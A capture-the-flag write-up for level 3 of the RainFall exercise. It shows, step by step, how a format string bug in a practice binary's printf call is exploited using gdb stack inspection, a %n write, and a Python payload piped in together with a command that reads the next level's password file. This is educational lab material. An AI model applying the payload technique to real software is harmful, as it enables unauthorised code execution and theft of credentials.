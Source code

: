## LEVEL 3
---

As usual, I disasemble the binary, you can find the asm file [here](./asm/level3.asm).

Here is the most important parts.

```shell
v:
    0x080484a7 <+3>:	sub    $0x218,%esp; Allocate 536 bytes on the stack
    [...]
    0x080484be <+26>:	lea    -0x208(%ebp),%eax ; Load the address of the buffer in eax
    0x080484c4 <+32>:	mov    %eax,(%esp) ; Put the address of the buffer in the stack
    0x080484c7 <+35>:	call   0x80483a0 <fgets@plt> ; Call fgets, and store the result in the buffer
    [...]
    0x080484cc <+40>:	lea    -0x208(%ebp),%eax ; Load the address of the buffer in eax
    0x080484d2 <+46>:	mov    %eax,(%esp) ; Put the address of the buffer in the stack
    0x080484d5 <+49>:	call   0x8048390 <printf@plt> ; Call printf with the buffer as argument
    [...]
    0x080484da <+54>:	mov    0x804988c,%eax ; Load the address of a global value in eax
    0x080484df <+59>:	cmp    $0x40,%eax ; Compare the value with 64.
    0x080484e2 <+62>:	jne    0x8048518 <v+116> ; If not equal, jump to the end of the function
    [...]
    0x08048513 <+111>:	call   0x80483c0 <system@plt> ; Call system with "/bin/sh" as argument
    0x08048518 <+116>:	leave
    0x08048519 <+117>:	ret 
```

The program uses `fgets` to forbid buffer overflow attack on return address. But it does have another vulnerability on `printf` function. It calls `printf` like this `printf(buffer)`, this format is vulnerable to format string attack.

To understand what is a format string attack, you can read [this](../x86_docs/format_string_attack.md).

Before creating the payload, we need to understand how `%n` works in format string because I will use it to change the global variable. Here is a exemple from a website :

```c
#include<stdio.h>
int main() {
   int s;
   int m = 28;
   int val;
   printf("The value of %ns and %nm %nval : ", &s, &m, &val);
   printf("%d %d %d", s, m, val);
   return 0;
}

The value of s and m val : 13 19 21
```

This example demonstrates that `%n` can be used to write a value at a specified address, where the value corresponds to the number of characters preceding `%n`. Now that we have this knowledge, we can proceed to solve this level.

Now it's time to think about how to create the payload.

First, I need to find the address where the buffer is written.
```shell
(gdb) disas v
0x080484be <+26>:	lea    -0x208(%ebp),%eax
0x080484c4 <+32>:	mov    %eax,(%esp)
[...]
(gdb) x $esp
0xbffff510:	0xbffff520
```
Nice, so the buffer is stored at `0xbffff520` and `$esp` is at `0xbffff510`. If you want to display the value at `0xbffff520`, you would need to access `arg[4]` because:
```
arg[0] - 0xbffff520 -> our buffer
arg[1] - 0xbffff51c -> ?
arg[2] - 0xbffff518 -> ?
arg[3] - 0xbffff514 -> ?
arg[4] - 0xbffff510 -> 0xbffff520
```
Here, `arg[0]` will automatically be printed because it is the address sent to `printf`.
So, if you want to print the value at `0xbffff510`, you would write something like this: `printf("TEST%p%p%p%p")`. Let's try it.
```shell
(gdb) r
TEST %p %p %p %p
TEST 0x200 0xb7fd1ac0 0xb7ff37d0 0x54534554
```
Nice, I print the `$esp` to check if what i said was right.
```shell
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x54534554	0x70257025	0x70257025	0xb7fe000a
0xbffff530:	0xbffff588	0xb7fde2d4	0xb7fde334	0x00000007
```
Nice, this is exactly what I predicted. Now, you can try to change the value of a global variable by writing its address instead of `"TEST"`.
```shell
(gdb) disas
=> 0x080484da <+54>:	mov    0x804988c,%eax
(gdb) r
\x8c\x98\x04\x08 %p %p %p %n
Program received signal SIGSEGV, Segmentation fault.
0xb7e7312c in vfprintf () from /lib/i386-linux-gnu/libc.so.6
```
Nice, I encountered a segmentation fault, it indicates that you were able to change the value of the global variable successfully. Since you are unable to verify it with GDB, you can proceed to change the global variable to 64 by writing its address and then providing 60 characters as the fourth argument with python script.
```shell
python -c 'print "\x8c\x98\x04\x08" + "\x90"*60 + "%4$n"' > /tmp/payload
level3@RainFall:~$ (cat /tmp/payload; echo "cat /home/user/level4/.pass") | ./level3
�������������������������������������������������������������
Wait what?!
level3@RainFall:~$ (cat /tmp/payload; echo "cat /home/user/level4/.pass") | ./level3
�������������������������������������������������������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

*Source :*

*https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf*